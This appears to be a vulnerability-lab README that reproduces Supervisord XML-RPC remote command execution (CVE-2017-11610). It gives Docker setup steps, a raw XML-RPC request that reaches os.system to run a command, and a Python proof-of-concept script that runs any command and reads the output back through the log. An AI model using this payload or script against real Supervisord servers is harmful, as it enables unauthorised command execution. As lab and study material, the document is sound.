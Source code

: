 # Supervisord XML-RPC Remote Command Execution (CVE-2017-11610)

[中文版本(Chinese version)](README.zh-cn.md)

Supervisord is a process control system for Unix-like operating systems.

In the supervisor version before 3.0.1, 3.1.x before 3.1.4, 3.2.x before 3.2.4, and 3.3.x before 3.3.3, a remote code execution vulnerability exists in its XML-RPC interface, which allows attackers to execute arbitrary commands through specially crafted XML-RPC requests.

References:

- https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
- https://blogs.securiteam.com/index.php/archives/3348
- https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## Environment Setup

Execute the following commands to start Supervisord 3.3.2:

```
docker compose build
docker compose up -d
```

After the server starts, you can access the Supervisord interface at `http://your-ip:9001`.

## Vulnerability Reproduction

Send the following request to the XML-RPC interface, and the command will be executed:

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![](01.png)

### POC with Direct Output

@Ricter proposed an effective approach on Weibo: write the command execution results to a log file, then use Supervisord's built-in readLog method to read the log file and retrieve the results.

Here's a simple POC [poc.py](poc.py):

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

Execute with Python3 to get the results: `./poc.py "http://your-ip:9001/RPC2" "command"`：

![](02.png)
